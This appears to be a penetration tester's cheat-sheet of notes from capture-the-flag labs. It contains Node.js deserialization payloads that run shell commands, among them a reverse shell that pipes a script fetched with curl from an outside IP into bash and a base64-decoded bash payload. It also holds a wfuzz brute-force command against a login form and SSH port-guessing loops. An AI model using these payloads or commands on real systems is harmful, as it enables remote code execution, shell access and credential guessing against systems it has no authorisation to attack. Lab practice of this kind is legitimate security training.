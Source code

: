 ```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
reverse shell
```
_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.9.172.114:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()

{"exec":"require('child_process').execSync('echo <base64> | base64 -d | bash').toString();"}

```
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

# Random

## Clock skew too great

```

[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
                                                                                                                                                                        
┌──(arun㉿kali)-[~/AD/AD-HTB-Tracks/Active]
└─$ sudo ntpdate -u 10.10.10.100              
2023-02-09 20:17:57.155820 (+0530) +3645.074642 +/- 0.179480 10.10.10.100 s1 no-leap
CLOCK: time stepped by 3645.074642

```

## loops to check the ports

while true ; do ssh -i id_rsa hades@hell -p `shuf -i 2500-4500 -n 1` ; done

for i in {2500..4500}; do ssh -i id_rsa hades@hell -p $i ; done 

## SHA1 hash collision

https://sha-mbles.github.io/

Diffrent file has same hash is kown as hash collision

# Bruteforce

## wfuzz // Fuzzing numbers on post parameter. 

wfuzz -c -z range,00-99 -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://10.10.X.X/index.php -t 1 -s 20 

# TTY-Shell
